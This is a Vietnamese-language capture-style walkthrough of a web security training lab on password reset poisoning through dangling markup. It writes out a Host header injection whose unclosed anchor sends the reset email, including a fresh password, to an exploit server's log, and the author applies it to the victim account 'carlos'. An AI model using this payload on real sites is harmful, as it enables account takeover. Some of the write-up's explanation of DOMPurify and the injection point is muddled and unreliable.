


# Lab: Password reset poisoning via dangling markup

GET /email có đoạn code sau:
```
<script>
    window.addEventListener('DOMContentLoaded', () => {
        for (let el of document.getElementsByClassName('dirty-body')) {
            el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
        }
    });
</script>
```

Đoạn code này có thể bị tấn công bằng cách chèn mã độc vào thuộc tính `data-dirty` của phần tử có class `dirty-body`. Khi trang được tải, mã độc sẽ được thực thi sau khi được làm sạch bởi DOMPurify.

Khi View raw, thấy:
```
<p>Hello!</p><p>Please <a href='https://0a2100f604ef4267800b125100c40037.web-security-academy.net/login'>click here</a> to login with your new password: dX2stv0XwF</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

-> đoạn code không được sanitize -> có thể bị tấn công bằng cách chèn mã độc

Thử đổi port: Host: 0a2100f604ef4267800b125100c40037.web-security-academy.net:attack
Kết quả:
```
<p>Hello!</p><p>Please <a href='https://0a2100f604ef4267800b125100c40037.web-security-academy.net:attack/login'>click here</a> to login with your new password: TtRUSUs5Va</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```
-> có thể chèn mã độc vào thuộc tính `data-dirty` bằng cách thay đổi port trong header Host, dẫn đến việc thực thi mã độc khi trang được tải.

Mục tiêu: password mới được lưu vào log của exploit server

Đổi Host thành: 
`Host: 0a2100f604ef4267800b125100c40037.web-security-academy.net:<a href="https://exploit-0a2c00d104c8426f80f3113a01f30055.exploit-server.net/exploit?`

-> mục đích là đoạn code còn lại được truyền vào url của exploit server

Truy cập log, thấy:
```
10.0.4.66       2026-05-11 15:51:12 +0000 "GET /exploit?/login'>click+here</a>+to+login+with+your+new+password:+m6zXhTwpas</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200 
```
-> password mới đã được lưu vào log của exploit server

Gửi lại với user carlos:


Log của exploit server:
```
10.0.4.66       2026-05-11 15:52:35 +0000 "GET /exploit?/login'>click+here</a>+to+login+with+your+new+password:+7Xkm47o1ls</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200 
```

Login user carlos với password mới:
